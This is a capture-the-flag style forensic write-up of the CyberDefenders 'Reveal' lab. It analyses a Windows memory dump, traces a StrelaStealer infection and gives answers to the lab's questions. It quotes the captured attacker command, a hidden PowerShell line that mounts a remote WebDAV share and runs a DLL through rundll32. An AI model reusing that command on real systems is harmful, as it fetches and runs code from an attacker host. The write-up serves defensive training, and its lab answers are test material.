









# CyberDefenders: Reveal — Forensic Analysis Write-Up

This write-up covers the forensic investigation for the **CyberDefenders Reveal** lab, analyzing a target Windows memory dump (`192-Reveal.dmp`) using **[Volatility Workbench](https://www.osforensics.com/tools/volatility-workbench.html)**.

### Environment Setup
1. Extract the Volatility Workbench archive.
2. Launch the application, click **Browse Image**, and select `192-Reveal.dmp`.
3. Click **Get Process List** to parse the memory image and populate active processes.

---

## 1. Identifying the name of the malicious process helps in understanding the nature of the attack. What is the name of the malicious process?

To inspect command-line executions, run the command-line analysis module (`windows.cmdline`). Inspecting the process arguments reveals a suspicious PowerShell invocation:

```powershell
powershell.exe -windowstyle hidden net use \\45.9.74.32@8888\davwwwroot\ ; rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry
```

**Deconstruction of the command:**
- `-windowstyle hidden`: Hides the PowerShell console window from the active user to evade detection.
- `net use \\45.9.74.32@8888\davwwwroot\`: Mounts a remote WebDAV share hosted at `45.9.74.32` on port `8888`.
- `rundll32 ...\3435.dll,entry`: Executes the exported function `entry` from the remotely staged DLL (`3435.dll`) via Windows' built-in `rundll32.exe` binary.

**Answer:** `powershell.exe`



---

## 2. Knowing the parent process ID (PPID) of the malicious process aids in tracing the process hierarchy and understanding the attack flow. What is the parent PID of the malicious process?

Correlating the malicious `powershell.exe` process (PID `3692`) against the primary process listing (`windows.pslist`), the `PPID` column identifies the spawning parent process.

**Answer:** `4120`



---

## 3. Determining the file name used by the malware for executing the second-stage payload is crucial for identifying subsequent malicious activities. What is the file name that the malware uses to execute the second-stage payload?

From the extracted command-line arguments in Question 1, the `rundll32.exe` command references the remote binary executed as the second-stage payload.

**Answer:** `3435.dll`



---

## 4. Identifying the shared directory on the remote server helps trace the resources targeted by the attacker. What is the name of the shared directory being accessed on the remote server?

Examining the UNC path passed to `net use` (`\\45.9.74.32@8888\davwwwroot\`) indicates the target WebDAV resource directory.

**Answer:** `davwwwroot`



---

## 5. What is the MITRE ATT&CK sub-technique ID that describes the execution of a second-stage payload using a Windows utility to run the malicious file?

Tracing the behavior through the MITRE ATT&CK matrix:
- **Tactic:** Execution (`TA0002`) / Defense Evasion (`TA0005`)
- **Technique:** System Binary Proxy Execution (`T1218`)
- **Sub-technique:** Rundll32 (`T1218.011`)

The adversary leverages the trusted native binary `rundll32.exe` to proxy the execution of unauthorized, malicious code (`3435.dll`).

**Answer:** `T1218.011`

  


---

## 6. Identifying the username under which the malicious process runs helps in assessing the compromised account and its potential impact. What is the username that the malicious process runs under?

To determine the user context associated with the rogue process (PID `3692`), query the security identifiers using the `windows.getsids` plugin targeted at PID `3692`. Resolving the associated SID maps the process owner to the local user account.

**Answer:** `Elon`



---

## 7. Knowing the name of the malware family is essential for correlating the attack with known threats and developing appropriate defenses. What is the name of the malware family?

Pivoting on the remote infrastructure IP (`45.9.74.32`) via VirusTotal threat intelligence reveals associated sample submissions and behavioral execution graphs. Inspecting the associated payloads and threat telemetry surfaces the family tags `strela` and `stealer`.

**Malware Overview:** **StrelaStealer** is an information stealer designed specifically to target and exfiltrate stored email credentials (notably from clients such as Mozilla Thunderbird and Microsoft Outlook).

**Answer:** `strelastealer`

  

